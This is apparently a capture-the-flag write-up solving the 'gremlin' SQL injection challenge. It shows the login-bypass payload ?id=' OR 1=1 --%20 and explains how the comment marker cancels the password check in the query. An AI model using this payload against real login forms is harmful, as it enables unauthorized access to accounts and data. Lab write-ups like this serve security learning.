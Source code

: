 I just want to mention that the *id* and *pw* field are gonna be passed in the url like this : ?id=
If you've read my article mentioned above, you can solve this challenge easily by closing the id field using an apostrophe then executing a condition that returns true as a result like 1=1. 
So the final result will be : 
?id=' OR 1=1 
Then we need to comment out the *pw* field so we insert a double dash followed by a space (Black Space = %20 : URL encoding) or a hashtag(hashtag = %23 : URL encoding )
?id=' OR 1=1 --%20
So the final query will be  : 
```sql
select id from prob_gremlin where id='' OR 1=1 -- ' and pw=''
```
GREMLIN CLEAR ! 
